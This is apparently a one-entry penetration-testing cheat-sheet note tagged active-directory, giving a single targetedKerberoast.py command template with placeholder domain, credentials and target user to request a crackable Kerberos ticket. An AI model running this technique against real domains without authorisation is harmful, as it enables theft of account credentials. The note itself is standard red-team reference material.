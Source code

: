 # targetedkerberoast
#active-directory

## Targeted kerberoast
```
targetedKerberoast.py -d <domain> -u <user> -p '<passwd>' --request-user <target_user>
```

